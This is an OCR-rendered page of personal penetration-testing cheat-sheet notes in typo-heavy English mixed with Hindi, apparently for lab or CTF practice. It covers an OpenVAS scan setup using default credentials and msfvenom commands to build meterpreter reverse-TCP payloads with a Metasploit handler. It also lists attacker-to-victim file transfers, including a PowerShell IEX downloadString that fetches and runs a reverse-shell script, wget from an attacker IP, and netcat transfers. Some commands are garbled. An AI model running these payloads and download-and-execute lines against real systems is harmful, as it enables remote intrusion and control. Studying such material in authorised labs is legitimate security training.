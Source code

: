| **2 ] Perform Vulnerability Analysis using OpenVAS** |  |  |
| step 1 :- docker run -d -p 443:443 --name openvas mikesplain/openvas | sudo su run on parrot machine  |  |
| st 2:- https://127.0.0.1/ | search in browser —> accept risk and contineu —→ log in with admin/admin or admin/password |  |
| step 3 :-  click scane —→ task —→click the Task Wizard option. → enter the target IP address.→stat scan → status ke under 100% scan ho jaye to Done dikhega uspe hi click ker do. →Click on any vulnerability under the Vulnerability column. | follow step 3 |  |
|  |  |  |
|  |  |  |

---

---

### Use Msfvanom  to create payloads.

| 1] msfvenom  --list=payloads |grep Android |  |
| --- | --- |
| 2] android/meterpreter/reverse_tcp  , cmd/linux/http/x64/meterpreter/reverse_tcp , cmd/windows/http/x64/meterpreter/reverse_tcp , php/meterpreter_reverse_tcp  |  |
| 3] msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attackerip give> LPORT=<lisningport give> -f raw > file.php    |  |
| 4] msfconsole -q |  |
| 5] use exploit/multi/handler |  |
| 6] set payload , set lhost attacker ip.  |  |
| 7] run |  |
| https://www.revshells.com/ |  |

---

---

# File transfer attacker machine to victume machine

| 1 | http server |  |
| --- | --- | --- |
|  | attacker :-  python3 -m http.server 8000 | we open hhtp server bec we download any file attacker to vecteam machine using wget command |
| linux | vecteam :-  wget 10.10.14.3:8000/php-reverse-shell.php  -O  -O /dev/shm/php-rev-shell.php | put attacker ip and port and file name which you want to download. |
| windows | vecteam :- powershell -c "IEX(New-Object Net.webClient).downloadString( '[http://10.10.14.19:8000/](http://10.10.14.19:8000/Invoke-PowerShellTcp2.ps1)file name' )" | put attacker ip and port and file name which you want to download in vectem machine . |
| use wget | victeam :-  wget  http://Attacker ip:8000/file path and name  |  |
|  | —————————————————————————— |  |
| 2 | NetCat  |  |
|  | attacker :-  $  nc -nvlp 6666 < pspy64 | < sent file |
|  | vecteam :- $  nc -nv 10.10.14.10 6666 > pspy64 | > receive file |
|  |  |  |
| 3 | attacker :-  |  |
|  | vecteam :-  |  |

---
